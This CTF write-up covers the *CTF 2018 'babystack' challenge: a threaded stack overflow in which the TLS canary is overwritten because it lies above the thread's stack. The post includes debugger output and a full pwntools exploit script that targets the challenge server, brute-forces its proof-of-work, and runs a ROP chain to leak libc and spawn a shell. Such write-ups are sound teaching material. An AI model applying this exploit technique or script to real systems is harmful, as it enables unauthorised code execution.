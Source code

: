 ```yaml
---
title:  Star Ctf 2018 Babystack
updated: 2018-05-01 16:10:33
tags: [pwn,writeup]
---
```




- [babystack](#orgdffcbc7)



<a id="orgdffcbc7"></a>

# babystack

    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

The challenge creates a thread and calls a function start_routine

```c
void *__fastcall start_routine(void *a1)
{
  void *result; // rax@2
  __int64 v2; // rcx@4
  unsigned __int64 v3; // [sp+8h] [bp-1018h]@1
  char s; // [sp+10h] [bp-1010h]@1
  __int64 v5; // [sp+1018h] [bp-8h]@1

  v5 = *MK_FP(__FS__, 40LL);
  memset(&s, 0, 0x1000uLL);
  puts("Welcome to babystack 2018!");
  puts("How many bytes do you want to send?");
  v3 = get_int();
  if ( v3 <= 0x10000 )
  {
    get_inp(0, &s, v3);
    puts("It's time to say goodbye.");
    result = 0LL;
  }
  else
  {
    puts("You are greedy!");
    result = 0LL;
  }
  v2 = *MK_FP(__FS__, 40LL) ^ v5;
  return result;
}
```

Well there is a huge overflow in the stack . During the ctf giving a very large input makes the program segfault inside the get<sub>inp</sub> function which dereference a location on the stack and it points to the errno variable but our overflow overwrite this pointer and causes trouble , I just found the offset and gave it a pointer to BS's which will be allways null , thus the read will terminate without any error . Next is to bypass the canary

As the function is called on a different thread , the thread will have a new stack and the canary is placed on the thread local storage structure. and this structure will be on top of the stack which gives us a opportunity to overflow in this case .

```c
  typedef struct
  {
    void *tcb;        /* Pointer to the TCB.  Not necessarily the
                 thread descriptor used by libpthread.  */
    dtv_t *dtv;
    void *self;       /* Pointer to the thread descriptor.  */
    int multiple_threads;
    int gscope_flag;
    uintptr_t sysinfo;
    uintptr_t stack_guard;
    uintptr_t pointer_guard;
    ...
  } tcbhead_t;
```

the fs segment register will always point to this . As it turns out i could not view the address which fs points with gdb , the `arch_prctl` syscall is responsible of setting address to these registers , by viewing the the argument of this syscall we can find the address of this structure .

    pwndbg> catch syscall 158
    Catchpoint 1 (syscall 'arch_prctl' [158])

this will stop the execution after the syscall has called

```nasm
pwndbg> reg
*RAX  0xffffffffffffffda
*RBX  0x1
*RCX  0x7ffff7dd9bb8 (init_tls+280) ◂— test   eax, eax
*RDX  0x7ffff7fc5010 ◂— 0x0
*RDI  0x1002
*RSI  0x7ffff7fc4700 ◂— 0x7ffff7fc4700
*R8   0xffffffffffffffff
 R9   0x0
*R10  0x22
*R11  0x206
*R12  0x22c3d0dcdbfa
*R13  0x10
 R14  0x0
*R15  0x7ffff7ffe170 ◂— 0x0
*RBP  0x7fffffffdbd0 —▸ 0x400040 ◂— 0x500000006
*RSP  0x7fffffffd9c0 ◂— 0x0
*RIP  0x7ffff7dd9bb8 (init_tls+280) ◂— test   eax, eax
pwndbg> x/10gx 0x7ffff7fc4700
0x7ffff7fc4700: 0x00007ffff7fc4700      0x00007ffff7fc5010
0x7ffff7fc4710: 0x00007ffff7fc4700      0x0000000000000000
0x7ffff7fc4720: 0x0000000000000000      0x0000000000000000
0x7ffff7fc4730: 0x0000000000000000      0x0000000000000000
0x7ffff7fc4740: 0x0000000000000000      0x0000000000000000
```

this is the address of the tls . the values are not populated yet .

```nasm
0x004009f2      64488b042528.  mov rax, qword fs:[0x28]    ; [0x28:8]=-1 ; '(' ; 40
0x004009fb      488945f8       mov qword [rbp - 8], rax
```

this is the code which copy the canary to the stack , so fs + 0x28 gives us the canary .

```nasm
pwndbg> x/4gx 0x7ffff7fc4700 + 0x28
0x7ffff7fc4728: 0x4339f83af5815e00      0xe535fd48502579dc
0x7ffff7fc4738: 0x0000000000000000      0x0000000000000000
```

now we can calculate the offset of the canary from the read buffer and overwrite it with a known values , then we can use the usual ROP techniques to get the shell .

```python

import hashlib,string

def p64(hex):
    from struct import pack
    return pack('<' + 'Q' * len(hex), *hex)
context.arch = 'amd64'
context.bits = 64
if True:
    context.log_level = "debug"
    io = remote ("47.91.226.78", 10005)
else:
    context.log_level = "debug"
    context.terminal = ['tmux', 'splitw', '-h']
    env = { 'LD_PRELOAD' : './libc.so.6-56d992a0342a67a887b8dcaae381d2cc51205253'}
    io = process('bs',env=env )
    # gdb.attach(io,'''
    # b * 0x0400A1A
    # b * 0x00400A9C
    # ''')

def send(size,inp):
        io.recvuntil("How many bytes do you want to send?\n")
        io.sendline(str(size))
        io.send(str(inp))
def calc():
    leak=io.recvuntil('\n').strip()
    print leak
    l=leak.split(" == ")
    l[0]=(l[0][12:]).replace(')','')
    print l
    s=0
    for i in string.printable:
        for j in string.printable:
            for k in string.printable:
                for m in string.printable:
                    if hashlib.sha256(i+j+k+m+l[0]).hexdigest() == l[1]:
                        print i+j+k+m
                        io.sendlineafter("Give me xxxx:",i+j+k+m)
                        return
                    s=s+1
                    if s%10000==0:
                        print s

# send(0x10000,p64([0x602f00]) * ( 0x10000 / 8 ))
# 0x00400c03: pop rdi; ret;
# 0x00400c01: pop rsi; pop r15; ret;

calc()

payload = "A" * 0x1008 + "\x00" * 0x8
payload += p64([0x602d00,
                0x00400c03,
                0x601fb0,
                0x004007C0,
                0x00400c03,
                0x0,
                0x00400c01,
                0x602d00,
                0x0,
                0x004007E0,
                0x00400b90,
])
                
payload = payload.ljust( 6080 , "\x00" ) + p64([0x602f00])
payload = payload.ljust(0x1800,"\x00")
send(len(payload) , payload)


io.recvline()
libc_leak = u64(io.recvline()[:-1].ljust(0x8,"\x00"))
libc = libc_leak - 0x0006f690
magic = libc + 0xf1147

log.info("Libc Leak : " + hex(libc))


payload = p64([0x602d00,
               magic
])
               
io.sendline(payload)

io.interactive()
```

